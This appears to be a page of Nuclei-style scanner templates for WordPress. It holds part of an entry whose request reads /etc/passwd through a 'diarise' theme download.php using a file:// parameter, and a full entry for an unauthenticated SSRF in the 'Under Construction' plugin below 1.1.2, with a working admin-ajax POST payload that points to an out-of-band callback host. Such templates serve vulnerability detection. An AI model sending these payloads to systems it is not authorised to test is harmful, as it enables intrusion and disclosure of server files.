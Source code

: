 - Method - GET

### URL

- {{BaseURL}}/wp-content/themes/diarise/download.php?calendar=file:///etc/passwd

### Matchers

**Type - regex**

- regex
  1. root:[x*]:0:0

**Type - status**

- status
  1. 200

---

# Under Construction, Coming Soon & Maintenance Mode \< 1.1.2 - Server Side Request Forgery (SSRF)

## Description

- The includes/mc-get_lists.php file used the 'apiKey' POST parameter to create an https URL from it without sanitisation and called it with cURL, leading to a SSRF issue. The issue is exploitable via direct access to the affected file, and ucmm_mc_api AJAX call (available to both authenticated and unauthenticated users).

- severity - high
- tags - ssrf,wp,wp-plugin,wordpress,unauth,wpscan,packetstorm

## Requests

### Step - 1

```
POST /wp-admin/admin-ajax.php HTTP/2
Host: {{Hostname}}
Origin: {{BaseURL}}
Content-Type: application/x-www-form-urlencoded

action=ucmm_mc_api&apiKey=-{{interactsh-url}}%2Ftest%2Ftest%2Ftest%3Fkey1%3Dval1%26dummy%3D

```

### Matchers

**Type - word**

- part - interactsh_protocol
- words
  1. http

---